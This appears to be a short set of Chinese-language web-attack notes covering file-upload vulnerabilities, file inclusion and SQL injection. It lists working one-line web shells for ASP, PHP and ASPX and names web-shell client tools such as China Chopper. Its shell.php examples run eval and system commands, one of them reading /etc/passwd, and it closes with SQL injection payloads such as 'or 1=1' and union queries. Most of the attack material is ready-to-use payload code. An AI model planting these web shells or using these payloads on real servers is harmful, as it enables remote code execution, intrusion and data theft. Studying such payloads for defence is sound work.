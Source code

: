 # 文件上传漏洞

## 常用一句话木马

asp一句话木马：  <%execute(request("value"))%>

php一句话木马： <?php @eval($_POST[pwd]);?>  

aspx一句话木马：<%@ Page Language="Jscript"%>  <%eval(Request.Item["value"])%>

## 一句话最常用的客户端为：

一句话客户端增强版

中国菜刀

lanker一句话客户端

ZV新型PHP一句话木马客户端GUI版

# 文件包含

如果允许客户端用户输入控制动态包含在服务器端的文件，会导致恶意代码的执行及敏感信息泄露，主要包括本地文件包含和远程文件包含两种形式。
常见包含函数有：include()、require()
区别：

1. include是当代码执行到它的时候才加载文件,发生错误的时候只是给一个警告,然后继续往下执行
2. require是只要程序一执行就会立即调用文件,发生错误的时候会输出错误信息,并且终止脚本的运行

require一般是用于文件头包含类文件、数据库等等文件,include一般是用于包含html模版文件
include_once()、require_once()与(include\require)的功能相同,只是区别于当重复调用的时候，它只会调用一次。

利用图片隐藏一句话密码。

```php
shell.php
<?php eval($_REQUEST['pwd']);?> # 使用php函数
url:.../shell.php?pwd=phpinfo();
    
shell.php
<?php system($_REQUEST['pwd']);?> # 使用系统命令
url:.../shell.php?pwd=cat /etc/passwd
```



# SQL 注入攻击

```mysql
select * from mysql.user where user='Cdfsdfsdfsdf' or 1=1  -- eg ; 
# 有了or 1=1 条件一定为真，可以显示整张表信息，--是注释
select * from mysql.user union select * from mysql.user； # union 前后保持字段一致 ，结果字段名是前面的，值是后面的
mysql> select * from information_schema.tables; # 查询库，表信息
mysql> select * from information_schema.colums; # 查询库，表，列信息
mysql> SELECT CONCAT( '1', '01') # 合并字段
```
